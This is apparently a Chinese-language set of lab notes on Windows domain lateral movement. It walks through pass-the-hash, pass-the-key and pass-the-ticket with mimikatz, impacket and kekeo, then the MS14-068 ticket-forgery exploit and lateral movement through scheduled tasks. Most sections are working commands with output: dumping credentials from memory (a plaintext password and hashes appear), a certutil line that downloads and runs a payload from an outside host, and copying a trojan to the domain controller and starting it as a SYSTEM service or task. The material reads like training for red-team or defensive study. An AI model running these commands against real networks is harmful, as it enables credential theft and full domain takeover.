

# 内网横向移动

横向移动一般是在渗透过程中拿下了一台主机的system权限，但是还需要进入内网拿下更多的主机，这个时候就要进行横向移动了

## PTH 哈希传递攻击

攻击者使用用户密码的底层NTLM或LanMan 哈希来向远程服务器或服务进行身份验证，而不是像通常那样要求提供相关的纯文本密码。它用窃取哈希来取代窃取纯文本密码以获取访问权限的需要

如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接，但是使用mimikatz还是可以攻击成功。

### `mimikatz`实现

前提：获得当前主机管理员权限，现在是本地账户的`administrator`权限

（`192.168.111.151`是域控），当前权限是访问不了域控的



1. pass the key
    
    ```python
    log # 因为mimikatz不支持复制，所以在当前目录产生日志文件保存结果
    privilege::debug # 将当前权限提升到调试权限，需要以管理员身份进行
    sekurlsa::logonpasswords # 从内存中提取登陆的用户的密码等
    ```
    
    `sekurlsa`使用的是`ntlm`协议
    
    
    
    
    
2. 进行`pth`攻击
    
    ```python
    mimikatz # sekurlsa::pth /user:administrator /domain:sunset.com /ntlm:f98564f9c7fab916678466075899f6e1 /run:cmd
    ```
    
    - **`sekurlsa::pth`**
        
        执行 PTH 攻击的核心命令。
        
    - **`/user:administrator`**
        
        指定伪造认证的用户名，这里是 `administrator`
        
    - **`/domain:**sunset.com`
        
        指定域名或工作组名称，这里是 `sunset.com`
        
    - **`/ntlm:**f98564f9c7fab916678466075899f6e1`
        
        指定目标用户的 NTLM 哈希值。
        
        该哈希 `f98564f9c7fab916678466075899f6e1`
        
    
    执行完后会弹出一个`cmd`弹窗，里面使用的票据就是伪造的用户的
    
    
    
3. 然后可以查看域控文件等
    
    
    
4. 执行反弹`shell` ，通过定时任务来执行木马文件
    
    ```python
    mimikatz privilege::debug
    mimikatz sekurlsa::pth /user:administrator /domain:sunset.com /ntlm:f98564f9c7fab916678466075899f6e1
    net use \\192.168.111.151\c$
    copy C:\Users\webadmin\Desktop\webserver4444.exe \\192.168.111.151\c$
    sc \\WIN-QCGP8LUPL56.sunset.com create bindshell binpath= "c:\webserver4444.exe"
    sc \\WIN-QCGP8LUPL56.sunset.com start bindshell
    ```
    
    
    

### impacket包实现

1. psexec.py & smbexec.py & wmiexec.py
    
    ```python
    python3 psexec.py -hashes :95e7c9e155ed6f372fbe791c52a5e345 ./administrator@192.168.111.151
    python3 smbexec.py -hashes :95e7c9e155ed6f372fbe791c52a5e345 ./administrator@192.168.111.15
    python3 wmiexec.py -hashes :95e7c9e155ed6f372fbe791c52a5e345 ./administrator@192.168.111.151
    ```
    
    > 前两个返回本地system权限，第三个返回域管理员权限
    > 
    
    | 工具 | 返回权限 | 工作机制 | 适用场景 |
    | --- | --- | --- | --- |
    | **`psexec.py`** | 本地 SYSTEM 权限 | 上传并启动服务，服务默认以 SYSTEM 身份运行 | 需要本地最高权限操作（如读取 SAM、提权等）。 |
    | **`smbexec.py`** | 本地 SYSTEM 权限 | 创建命名管道并模拟 shell，执行命令时以 SYSTEM 身份 | 与 `psexec.py` 类似，但效率略低。 |
    | **`wmiexec.py`** | 域管理员权限 | 直接使用 WMI 和 DCOM，执行命令时以提供的身份运行 | 需要域管理员权限操作（如跨主机管理或域操作）。 |
2. 然后可以通过`certutil`来下载木马文件
    
    ```python
    certutil -urlcache -split -f http://10.24.0.154/artifact_x64.exe 1.exe & 1.exe
    ```
    

### 关于`KB2871997` 补丁

- 是微软发布的安全更新，用于增强 Kerberos 协议的加密安全性。
- 安装后，系统可以优先使用 AES 加密密钥来验证 Kerberos，而非 NTLM 散列。
- **Windows XP/2003/Vista/2008** 等系统默认强制存储 NTLM 散列
- 从 **Windows 8.1/2012 R2** 开始，Kerberos 默认支持并优先使用 AES 密钥
- 如果用户升级了早期版本的系统（如 7/2008 R2/8/2012）并安装了 **KB2871997** 补丁，AES 密钥可以取代 NTLM 散列用于加密和身份验证
- 没打补丁用户都可以连接，打了补丁只能`administrator`连接（RID为500）
- 在这个更新之前，只要用户登录系统，Windows就会在lsass中缓存用户的凭据，包括用户的明文密码、LM/NTLMHASH、Kerberos的TGT票据/SessionKey。更新补丁后会在注销后删除凭证

> https://www.freebuf.com/column/220740.html
> 

对于`8.1/2012r2`，安装补丁`kb2871997`的`Win 7/2008r2/8/2012`等，可以使用`AES keys`代替`NT hash`来实现`ptk`攻击

## PTK 密钥传递攻击

PTK = Pass The Key

PTK：打了补丁才能用户都可以连接，采用aes256连接

当系统安装了`KB2871997`补丁且禁用了`NTLM`的时候，

那我们抓取到的`ntlm hash`也就失去了作用，但是可以通过`PTK`的攻击方式获得权限

1. `sekurlsa::ekeys` 
    
    
    
    ```python
    Authentication Id : 0 ; 1445774 (00000000:00160f8e)
    Session           : Interactive from 6
    User Name         : administrator
    Domain            : SUNSET
    Logon Server      : WIN-QCGP8LUPL56
    Logon Time        : 2024/11/20 15:28:46
    SID               : S-1-5-21-3031359239-526496926-4174433566-500
    
    	 * Username : administrator
    	 * Domain   : SUNSET.COM
    	 * Password : Ax118811
    	 * Key List :
    	   aes256_hmac       5e79ea5c0a0aa576d15e75394ff1150b68c012ee2c701c228c1dc7c42c182857
    	   aes128_hmac       708481a62d5510a98c4e224125d85151
    	   rc4_hmac_nt       95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_hmac_old      95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_md4           95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_hmac_nt_exp   95e7c9e155ed6f372fbe791c52a5e345
    	   rc4_hmac_old_exp  95e7c9e155ed6f372fbe791c52a5e345
    ```
    
2. `sekurlesa::pth`
    
    ```python
    mimikatz sekurlsa::pth /user:administrator /domain:sunset.com /aes256:5e79ea5c0a0aa576d15e75394ff1150b68c012ee2c701c228c1dc7c42c182857
    ```
    

## PTT 票据传递攻击

**不需要管理员权限**就可以获得远程系统的访问权限，Pass The Ticket 票据传递（PTT攻击）实现【未授权访问】

黄金票据，白银票据，PTT攻击

### 使用`mimikatz`来进行票据传递攻击

当前主机肯定和其他主机连结过，所以本地会生成一些票据，可以导出生成的票据，然后再导入利用票据的权限

票据是有有效期的，一般为10h，所以如果当前主机10h之内连接过域控的话，我们可以利用该票据，但是如果超过10h，就没法利用了

1. 导出票据(需要当前是管理员权限)
    
    
    
2. 导出后删除票据排除干扰
    
    ```python
    klist purge
    ```
    
    
    
3. 导入票据
    
    可以看票据名称来选择导入
    
    ```python
    kerberos::ptt 票据文件
    kerberos::ptt C:\Users\Administrator\Desktop\mimikatz-master\mimikatz-master\x64\[0;483ec]-2-0-60a00000-Administrator@krbtgt-SUNSET.COM.kirbi
    ```
    
    
    
4. 验证导入是否成功
    
    ```python
    C:\Users\Administrator>klist
    
    当前登录 ID 是 0:0x5e7f4
    
    缓存的票证: (1)
    
    #0>     客户端: Administrator @ SUNSET.COM
            服务器: krbtgt/SUNSET.COM @ SUNSET.COM
            Kerberos 票证加密类型: RSADSI RC4-HMAC(NT)
            票证标志 0x60a00000 -> forwardable forwarded renewable pre_authent
            开始时间: 11/21/2024 19:28:08 (本地)
            结束时间:   11/22/2024 5:28:00 (本地)
            续订时间: 11/28/2024 19:28:00 (本地)
            会话密钥类型: RSADSI RC4-HMAC(NT)
    ```
    
    klist可以显示导入的票据了
    
5. 访问IPC
    - 导入前，使用域名是因为让它走`kerberos`协议，因为`kerberos` 认证依赖于域名解析（DNS）来确定服务主体名称，没禁用`ntlm`的话使用IP会默认走`ntlm`
        
        ```python
        C:\Users\Administrator>dir \\a.sunset.com\c$
        登录失败: 未知的用户名或错误密码。
        ```
        
    - 导入后
        
        ```python
        C:\Users\Administrator>dir \\a.sunset.com\c$
         驱动器 \\a.sunset.com\c$ 中的卷没有标签。
         卷的序列号是 F80A-E907
        
         \\a.sunset.com\c$ 的目录
        
        2009/07/14  11:20    <DIR>          PerfLogs
        2024/11/20  18:28    <DIR>          Program Files
        2024/11/20  18:28    <DIR>          Program Files (x86)
        2024/11/18  14:53    <DIR>          Users
        2024/11/20  18:40    <DIR>          Windows
                       0 个文件              0 字节
                       5 个目录 29,652,508,672 可用字节
        ```
        
        
        

### 使用`kekeo`进行票据传递

通过`kekeo`来生成票据，然后导入，需要得到用户`ntlm Hash`或者`aes256`密钥值

1. 使用kekeo申请TGT
    
    > 这里拿到的是域内普通用户test的NTLM hash
    > 
    
    ```python
    tgt::ask /user:test /domain:sunset.com /ntlm:95e7c9e155ed6f372fbe791c52a5e345
    ```
    
    假如是获得的是`aes256`密钥
    
    ```python
     tgt::ask /user:test /domain:sunset.com /aes256:ba645451b3b4a065cf2227eb1611a5537c628de6ff5b595a88987ccc43350db2
    ```
    
    会在当前目录生成`tgt`票据文件
    
    
    
2. 导入票据文件
    - `kerberos::ptt`
        
        ```python
        kerberos::ptt TGT_test@SUNSET.COM_krbtgt~sunset.com@SUNSET.COM.kirbi
        ```
        
        
        
    - 也可以在生成票据的时候直接加上 `/ptt` 直接导入
        
        ```python
        tgt::ask /user:test /domain:sunset.com /ntlm:95e7c9e155ed6f372fbe791c52a5e345 /ptt
        ```
        
3. 连接IPC，因为`test`是域内普通账户，所以拒绝访问
    
    ```python
    C:\Users\Administrator>dir \\a.sunset.com\c$
    拒绝访问。
    ```
    
    我们在域控将`test`加入到域管理员组后
    
    ```python
    C:\Users\Administrator>dir \\a.sunset.com\c$
     驱动器 \\a.sunset.com\c$ 中的卷没有标签。
     卷的序列号是 F80A-E907
    
     \\a.sunset.com\c$ 的目录
    
    2009/07/14  11:20    <DIR>          PerfLogs
    2024/11/20  18:28    <DIR>          Program Files
    2024/11/20  18:28    <DIR>          Program Files (x86)
    2024/11/18  14:53    <DIR>          Users
    2024/11/20  18:40    <DIR>          Windows
                   0 个文件              0 字节
                   5 个目录 29,649,670,144 可用字节
    ```
    

### **漏洞-MS14-068 CVE-2014-6324**

> 官方说明：https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-068?redirectedfrom=MSDN
> 

漏洞利用条件：服务票据是客户端直接发送给服务器,并请求服务资源的。如果服务器没有向域控dc验证pac的话,那么客户端可以伪造域管的权限来访问服务器

> PAC中存在的两个签名：`PAC_SERVER_CHECKSUM` 以及`PAC_PRIVSVR_CHECKSUM`
> 

利用前提：没有打MS14-068的补丁；被攻击者拿下一台域内的普通计算机，并获得域内普通用户的密码/hash值，以及用户`SID`

> exp地址：https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
> 

实验环境：

- DC windows 2008R2 OWA.god.org 192.168.52.138
- 域内机器 windows7 192.168.52.143
1. 首先检查域控是否打了**MS14-068**的补丁(KB3011780)
    
    
    
2. win7上测试漏洞，以域内普通用户a登录，并尝试IPC连接域控C盘
    
    ```python
    C:\Users\a>dir \\owa.god.org\c$
    拒绝访问。
    ```
    
3. 如何将现在起作用的票据删掉
    
    ```python
    C:\Users\a>klist purge
    
    当前登录 ID 是 0:0x1ebb42
            删除所有票证:
            已清除票证!
    ```
    
4. 使用whoami获得用户`SID`
    
    ```python
    C:\Users\a>whoami /all
    
    用户信息
    ----------------
    
    用户名 SID
    ====== ==============================================
    god\a  S-1-5-21-2952760202-1353902439-2381784089-1108
    ```
    
    获得SID `S-1-5-21-2952760202-1353902439-2381784089-1108`
    
5. 利用ms14-068.exe提权工具生成伪造的kerberos协议认证证书
    
    `MS14-068.exe -u <userName>@<domainName> -p <clearPassword> -s <userSid> -d <domainControlerAddr>`
    
    ```python
    C:\Users\a\Desktop>MS14-068.exe -u a@god.org -s S-1-5-21-2952760202-13539024392381784089-1108 -d 192.168.52.138
    Password:
      [+] Building AS-REQ for 192.168.52.138... Done!
      [+] Sending AS-REQ to 192.168.52.138... Done!
      [+] Receiving AS-REP from 192.168.52.138... Done!
      [+] Parsing AS-REP from 192.168.52.138... Done!
      [+] Building TGS-REQ for 192.168.52.138... Done!
      [+] Sending TGS-REQ to 192.168.52.138... Done!
      [+] Receiving TGS-REP from 192.168.52.138... Done!
      [+] Parsing TGS-REP from 192.168.52.138... Done!
      [+] Creating ccache file 'TGT_a@god.org.ccache'... Done!
    ```
    
    会在桌面生成一个TGT票据
    
6. 利用mimikatz来导入票据
    
    ```python
    mimikatz # kerberos::purge
    Ticket(s) purge for current session is OK
    
    mimikatz # kerberos::list
    
    # 导入票据
    mimikatz # kerberos::ptc C:\Users\a\Desktop\TGT_a@god.org.ccache
    
    Principal : (01) : a ; @ GOD.ORG
    
    Data 0
    	   Start/End/MaxRenew: 2024/11/21 21:45:33 ; 2024/11/22 7:45:33 ; 2024/11/28 21:45:33
    	   Service Name (01) : krbtgt ; GOD.ORG ; @ GOD.ORG
    	   Target Name  (01) : krbtgt ; GOD.ORG ; @ GOD.ORG
    	   Client Name  (01) : a ; @ GOD.ORG
    	   Flags 50a00000    : pre_authent ; renewable ; proxiable ; forwardable ; 
    	   Session Key       : 0x00000017 - rc4_hmac_nt      
    	     81c2631584561a17541d1254f97a5d1b
    	   Ticket            : 0x00000000 - null              ; kvno = 2	[...]
    	   * Injecting ticket : OK
    ```
    
7. 查看当前票据
    
    ```python
    C:\Users\a>klist
    
    当前登录 ID 是 0:0x1ebb42
    
    缓存的票证: (1)
    
    #0>     客户端: a @ GOD.ORG
            服务器: krbtgt/GOD.ORG @ GOD.ORG
            Kerberos 票证加密类型: RSADSI RC4-HMAC(NT)
            票证标志 0x50a00000 -> forwardable proxiable renewable pre_authent
            开始时间: 11/21/2024 21:45:33 (本地)
            结束时间:   11/22/2024 7:45:33 (本地)
            续订时间: 11/28/2024 21:45:33 (本地)
            会话密钥类型: RSADSI RC4-HMAC(NT)
    ```
    
8. 再通过IPC连接域控
    
    ```python
    C:\Users\a\Desktop>dir \\owa.god.org\c$
     驱动器 \\owa.god.org\c$ 中的卷没有标签。
     卷的序列号是 1E4D-1970
    
     \\owa.god.org\c$ 的目录
    
    2019/10/13  13:06    <DIR>          ExchangeSetupLogs
    2019/08/24  21:55    <DIR>          inetpub
    2009/07/14  11:20    <DIR>          PerfLogs
    2019/08/24  21:34    <DIR>          Program Files
    2019/08/24  21:34    <DIR>          Program Files (x86)
    2019/10/13  18:01    <DIR>          redis
    2024/11/20  19:11    <DIR>          Users
    2019/10/13  16:02    <DIR>          Windows
                   0 个文件              0 字节
                   8 个目录 13,941,129,216 可用字节
    ```
    
    权限提升成功，后面就是将木马文件copy到域控，然后通过服务或者计划任务启动木马让其上线
    
    使用PsExec连接
    
    ```python
    C:\Users\a\Desktop>PsExec.exe \\owa.god.org cmd.exe
    
    PsExec v2.43 - Execute processes remotely
    Copyright (C) 2001-2023 Mark Russinovich
    Sysinternals - www.sysinternals.com
    
    Microsoft Windows [版本 6.1.7601]
    版权所有 (c) 2009 Microsoft Corporation。保留所有权利。
    
    C:\Windows\system32>whoami
    god.org\a
    
    C:\Windows\system32>ipconfig
    
    Windows IP 配置
    
    以太网适配器 本地连接:
    
       连接特定的 DNS 后缀 . . . . . . . :
       本地链接 IPv6 地址. . . . . . . . : fe80::f891:d593:b2e5:4108%11
       IPv4 地址 . . . . . . . . . . . . : 192.168.52.138
       子网掩码  . . . . . . . . . . . . : 255.255.255.0
       默认网关. . . . . . . . . . . . . : 192.168.52.2
    
    隧道适配器 isatap.{D7C92CB6-1939-46AC-85CE-50401CEC5056}:
    
       媒体状态  . . . . . . . . . . . . : 媒体已断开
       连接特定的 DNS 后缀 . . . . . . . :
    
    C:\Windows\system32>
    ```
    

## 通过计划任务来横向

环境：已经上线内网中的一台机器抓取到密码，准备横向另一台机器（已上线 cs）

1. 首先和目标主机建立 IPC 连接
2. 然后通过 copy 命令将木马文件传到目标主机（1.exe）
    
    ```python
    copy C:\Users\webadmin\Desktop\1.exe \\192.168.111.151\c$
    ```
    
3. 创建计划任务
    
    ```xml
    schtasks /create /s 192.168.111.151 /u administrator /p Lyp010822 /tn test /tr C:/1.exe /sc onstart /RU System /F
    schtasks /create /s 192.168.111.151 /tn test /tr C:/1exe  /sc onstart /RU System /F
    这里走的是RPC协议
    ```
    
4. 执行计划任务
    
    ```xml
    schtasks /run /s IP地址  /u username /p password /i /tn "计划任务名称"
    schtasks /run /s 192.168.111.151  /u administrator /p Lyp010822 /i /tn "test"
    ```
    
5. 删除计划任务
    
    ```xml
    schtasks /delete /s IP地址  /u username /p password /tn "计划任务名称" /f
    schtasks /delete /s 192.168.111.151  /u administrator /p Lyp010822 /tn "test" /f
    ```
    
6. 主机上线